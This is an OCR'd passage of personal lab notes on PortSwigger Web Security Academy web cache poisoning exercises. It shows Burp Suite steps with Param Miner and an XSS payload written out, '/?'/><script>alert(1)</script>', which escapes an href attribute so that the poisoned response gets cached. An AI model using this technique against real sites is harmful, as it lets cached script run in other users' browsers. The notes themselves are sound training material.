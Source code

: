 ```bash

Response:

HTTP/1.1 200 OK

Copy:

"of5z4a4kt42"

Go to Response
Ctrl+f
Paste:

of5z4a4kt42

Go to: Repeater
Right-click request -> Extensions -> Param Miner -> Guess params -> Guess headers (disable if previously enabled)
Craft a response to escape the <href> tag

GET /?'/><script>alert(1)</script> HTTP/1.1

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0ac2006d0394a205c0600d7100550056.web-security-academy.net/

Refresh the page

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604031104.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604031132.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604030525.png)

### Web cache poisoning via an unkeyed query parameter
```bash

# This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

# To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Right-click request -> Extensions -> Param Miner -> Guess params -> Guess headers (not required)
Check the top-left box:

"Add 'fcbz' cachebuster"

```